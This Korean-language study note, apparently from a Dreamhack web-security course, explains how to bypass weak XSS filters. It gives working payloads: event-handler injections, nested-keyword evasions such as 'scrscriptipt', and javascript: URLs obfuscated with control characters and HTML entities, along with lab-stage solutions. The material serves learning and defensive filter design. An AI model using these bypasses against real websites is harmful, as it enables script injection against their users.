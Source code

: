 **XSS를 방어하기 위해 필터링을 추가되어있을 때 이를 우회하는 방법**  
# 불충분한 XSS 필터링  

## XSS 필터링의 배경  
HTML은 **SGML을 바탕** -> 기능을 상당 수 유지함으로써 **문법이 복잡**해졌고, 이에 따라 HTML을 해석하는 **소프트웨어의 구조 또한 정교화**  
**브라우저 전쟁** 을 거치면서 별다른 규율 없이 **태그 등을 늘림**  
-> 이러한 과정을 통해 HTML를 해석하는 소프트웨어 작성에 어려움을 겪었고, XSS 필터링도 비활성화 해야하는 경우가 생겼다.  
-> 보안을 위해 XSS 필터링은 **안전하다고 알려진 마크업만 허용**하는 보수적인 방식 (Allowlist 필터링)을 취해야 합니다.  
## 이벤트 핸들러 속성  
자바스크립트 코드를 실행할 수 있는 HTML 태그는 **<script>** 이외에도 상당수 존재  
-> 예 : **onload, onerror, onfocus** 등  
### onload 이벤트 핸들러  
요청하는 데이터를 **로드**한 후에 **실행**, 만약 **로드에 실패**했다면 **실행되지 않습니다.**  
```html
<img src="https://dreamhack.io/valid.jpg" onload="alert(document.domain)">
<!-- → 유효한 이미지 로드 후 onload 핸들러 실행 -->

<img src="about:invalid" onload="alert(document.domain)">
<!-- → 이미지 로드 실패, onload 핸들러 실행하지 않음 -->
```
### onerror 이벤트 핸들러  
요청하는 데이터를 **로드하는데 실패**할 시 **실행**, 만약 **로드에 성공**했다면 **실행되지 않습니다.**  
```html
<img src="valid.jpg" onerror="alert(document.domain)">
<!-- → 유효한 이미지 로드 성공, onerror 핸들러 실행하지 않음 -->

<img src="about:invalid" onerror="alert(document.domain)">
<!-- → 이미지 로드 실패, onerror 핸들러 실행 -->
```
### onfocus 이벤트 핸들러  
**input 태그**에 커서를 클릭하여 **포커스가 되면 실행**되는 이벤트 핸들러  
일반적으로 공격 상황에서 
1. input 태그의 **autofocus 속성**을 이용해 **자동으로 포커스** 시킴
2. **URL의 hash 부분**에 **input 태그의 id 속성 값**을 입력(e.g. http://dreamhack.io/#inputID) 해서 자동으로 포커스 되도록 합니다.  
```html
<input type="text" id="inputID" onfocus="alert(document.domain)" autofocus>
<!-- → autofocus 속성으로 인해 페이지가 로드되지마자 바로 input 태그에 포커스함, 포커스된 직후 onfocus 핸들러 실행 -->
```

## 문자열 치환  
XSS 키워드를 필터링할 때 단순히 **치환 혹은 제거**하는 방식의 필터링 관습이 존재함  
예 : **script** 를 필터링 했을 때, **scrscriptipt** 를 사용하면, 중간의 script가 필터링되고 바깥 쪽의 script가 남는다.  
다음은 필터링 우회 예시이다.  
```
(x => x.replace(/onerror/g, ''))('<img oneonerrorrror=promonerrorpt(1)>')
--> <img onerror=prompt(1) />
```
대응 방안으로 흔히 문자열에 **변화가 없을 때까지 지속적으로 치환**하는 방식이 있다.  
```
function replaceIterate(text) {
    while (true) {
        var newText = text.replace(/script|onerror/gi, '');
        if (newText === text)
            break;
        text = newText;
    }
    return text;
}
replaceIterate('<imgonerror src="data:image/svg+scronerroriptxml,&lt;svg&gt;" onloadonerror="alert(1)" />')
--> <img src="data:image/svg+xml,&lt;svg&gt;" onload="alert(1)" />
replaceIterate('<ifronerrorame srcdoc="&lt;sonerrorcript&gt;parent.alescronerroriptrt(1)&lt;/scrionerrorpt&gt;" />')
--> <iframe srcdoc="&lt;&gt;parent.alert(1)&lt;/&gt;" />
```

## 문자열 치환 실습  
### Stage 1  
<img src="1.jpg">  

**script** 를 빈 문자열로 치환한다.  
<img src="2.jpg">  

다음과 같이 **<script>alert(1)</script>** 을 적으면 필터링 되는 것을 알 수 있다.  
이 때, 중첩해서 문자열을 적으면 우회할 수 있다.  
<img src="3.jpg">  

**<scrscriptipt>alert(1)</scrscriptipt>** 라고 적으면 성공이다.  

### Stage 2  
<img src="4.jpg">  

**onerror** 를 빈 문자열로 치환한다.  
<img src="5.jpg">  
다음과 같이 적으면 onerror가 필터링 된다.  
```html
<img src="test.jpg" onerror=alert(1)>
```

<img src="6.jpg">  

이전 Stage 1과 같이 문자열을 중첩해서 적으면 우회할 수 있다. 
즉, **onerror**를 중첩해서 적으면 된다.  
```html
<img src="test.jpg" ononerrorerror=alert(1)>
```

## 활성 하이퍼링크  
HTML 에서 사용될 수 있는 URL들은 활성 콘텐츠를 포함할 수 있습니다.  
이 중 **javascript:** 스키마는 **URL 로드 시 자바스크립트 코드를 실행**할 수 있도록 합니다.  
```html
<a href="javascript:alert(document.domain)">Click me!</a>
<iframe src="javascript:alert(document.domain)">
```
다음과 같이 **a, iframe** 태그에서 javascript를 사용할 수 있다.  
이 경우에 **정규화**를 이용해 필터링을 우회할 수 있다.  
```html
<a href="\1\4jAVasC\triPT:alert(document.domain)">Click me!</a>
<iframe src="\1\4jAVasC\triPT:alert(document.domain)">
```
또한 태그 속성 내에서 **HTML Entity Encoding** 을 사용할 수 있다.  
즉, **javascript:** 나 다른 키워드로 인코딩해서 우회할 수 있다.  
```html
<a href="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">Click me!</a>
<iframe src="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">
```
자바스크립트에서는 **URL 객체**를 통해 URL을 직접 **정규화할 수 있으며**, **protocol, hostname 등 URL의 각종 정보를 추출**할 수 있습니다.  
```javascript
function normalizeURL(url) {
    return new URL(url, document.baseURI);
}
normalizeURL('\4\4jAva\tScRIpT:alert(1)').href
--> "javascript:alert(1)"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').protocol
--> "javascript:"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').pathname
--> "alert(1)"
```

## 태그와 속성 기반 필터링  
## 태그와 속성 기반 필터링 실습  
# 퀴즈  
